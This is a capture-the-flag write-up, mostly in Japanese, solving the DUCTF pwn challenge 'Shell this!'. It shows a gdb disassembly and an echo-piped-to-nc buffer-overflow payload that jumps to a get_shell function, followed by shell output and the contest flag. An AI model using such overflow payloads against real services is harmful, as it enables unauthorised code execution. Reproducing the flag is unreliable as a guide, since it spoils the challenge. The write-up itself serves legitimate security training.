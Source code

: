 # Shell this!:pwn:100pts
Somebody told me that this program is vulnerable to something called remote code execution?  
I'm not entirely sure what that is, but could you please figure it out for me?  
nc chal.duc.tf 30002  
Attached files:  
- shellthis.c (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)  
- shellthis (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)  
[shellthis.c](shellthis.c)　　　　[shellthis](shellthis)  

# Solution
shellthis.cを見るとget_shellなる関数がある。  
vulnに存在するBOFでこれを呼び出してやればいい。  
```bash
$ gdb ./shellthis
~~~
gdb-peda$ disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004006ca <+0>:     push   rbp
   0x00000000004006cb <+1>:     mov    rbp,rsp
   0x00000000004006ce <+4>:     mov    edx,0x0
   0x00000000004006d3 <+9>:     mov    esi,0x0
   0x00000000004006d8 <+14>:    lea    rdi,[rip+0xf9]        # 0x4007d8
   0x00000000004006df <+21>:    call   0x400570 <execve@plt>
   0x00000000004006e4 <+26>:    nop
   0x00000000004006e5 <+27>:    pop    rbp
   0x00000000004006e6 <+28>:    ret
End of assembler dump.
```
0x00000000004006caだとわかった。  
あとは位置を調整してやる。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xca\x06\x40\x00\x00\x00\x00\x00" ; cat) | nc chal.duc.tf 30002
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: ls
flag.txt
shellthis
cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```
flag.txt内にflagが書かれていた。  

## DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}